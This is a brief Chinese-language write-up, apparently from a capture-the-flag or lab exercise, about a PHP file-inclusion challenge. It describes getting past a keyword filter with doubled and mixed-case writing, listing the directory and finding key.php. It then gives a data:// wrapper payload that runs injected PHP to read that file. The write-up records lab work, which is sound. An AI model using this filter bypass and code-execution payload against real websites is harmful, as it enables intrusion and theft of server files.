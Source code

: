 
使用双写＋大小写绕过

成功回显当前目录下的文件

![72742031511](assets/1727420315117.png)

在上一级的目录下查看到了key.php

![72742034136](assets/1727420341367.png)

> 构造Payload：page=dadata://ta://text/plain,<?php @eval(system('cat ../key.php'))?>
>

![72742045634](assets/1727420456342.png)
